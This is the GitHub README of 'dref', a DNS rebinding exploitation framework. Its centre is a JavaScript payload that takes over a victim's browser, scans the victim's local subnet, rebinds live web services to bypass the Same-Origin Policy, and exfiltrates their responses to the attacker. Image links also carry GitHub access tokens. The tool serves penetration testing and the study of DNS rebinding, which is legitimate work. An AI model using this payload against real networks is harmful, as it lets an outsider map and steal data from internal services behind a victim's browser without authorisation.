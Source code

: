 <dl>
  <p align="center">
    <img src="https://raw.githubusercontent.com/serain/dref/master/docs/img/logo.png?token=AH5HJaNTqfEIQnbVSX_QaB2Br4R5we5Bks5bOpK4wA%3D%3D">
  </p>

  <!-- REPLACE SHIELDS -->
  <p align="center">
    <a href="https://travis-ci.org/serain/netmap.js.svg?branch=master" style="text-decoration: none">
      <img src="https://travis-ci.org/serain/netmap.js.svg?branch=master">
    </a>
    <a href="https://codecov.io/gh/serain/netmap.js">
      <img src="https://codecov.io/gh/serain/netmap.js/branch/master/graph/badge.svg">
    </a>
    <a href="https://greenkeeper.io/">
      <img src="https://badges.greenkeeper.io/serain/netmap.js.svg">
    </a>
    <a href="https://gitter.im/dref/Lobby/">
      <img src="http://badges.gitter.im/serain/dref.png">
    </a>
  </p>

  <p align="center">DNS Rebinding Exploitation Framework</p>

  <p align="center">
    <img src="https://raw.githubusercontent.com/serain/dref/master/docs/img/diagram.png?token=AH5HJYLZRcWi_aEJCVh8iU4efEQ4tkryks5bOpMMwA%3D%3D">
  </p>
</dl>

dref does the heavy-lifting for [DNS rebinding](https://en.wikipedia.org/wiki/DNS_rebinding). The following snippet from one of its [default payloads](https://github.com/serain/dref/wiki/Payloads#web-discover) shows the framework being used to scan a local subnet from a hooked browser; after identifying live web services it proceeds to exfiltrate GET responses, [breezing through the Same-Origin policy](https://github.com/serain/dref/wiki#limitations):

```javascript
// mainFrame() runs first
async function mainFrame () {
  // We use some tricks to derive the browser's local /24 subnet
  const localSubnet = await network.getLocalSubnet('24')

  // We use some more tricks to scan a couple of ports across the subnet
  netmap.tcpScan(localSubnet, [80, 8080]).then(results => {
    // We launch the rebind attack on live targets
    for (let h of results.hosts) {
      for (let p of h.ports) {
        if (p.open) session.createRebindFrame(h.host, p.port)
      }
    }
  })
}

// rebindFrame() will have target ip:port as origin
function rebindFrame () {
  // After this we'll have bypassed the Same-Origin Policy
  session.triggerRebind().then(() => {
    // We can now read the response across origin...
    network.get(session.baseURL, (code, headers, body) => {
      // ... and exfiltrate it
      session.log({code: code, headers: headers, body: body})
    })
  })
}
```

<dl>
  <img align="right" src="https://raw.githubusercontent.com/serain/dref/master/docs/img/exfiltrated.png?token=AH5HJUF5NJX7nlIHFdmlXn74LOZzzbjmks5bOuukwA%3D%3D">
  <img align="right" src="https://raw.githubusercontent.com/serain/dref/master/docs/img/arrow-bottom-right.png?token=AH5HJT0ROw-5c-TlZ7ZvUy0NaANoajbWks5bOuxuwA%3D%3D">
</dl>

<br /><br /><br /><br /><br /><br /><br /><br /><br />
Head over to the [Wiki](https://github.com/serain/dref/wiki) to get started.

<dl>
  <p align="center">
    <sub><i>This is a development release - <b>do not use in production</b></i></sub>
  </p>
</dl>
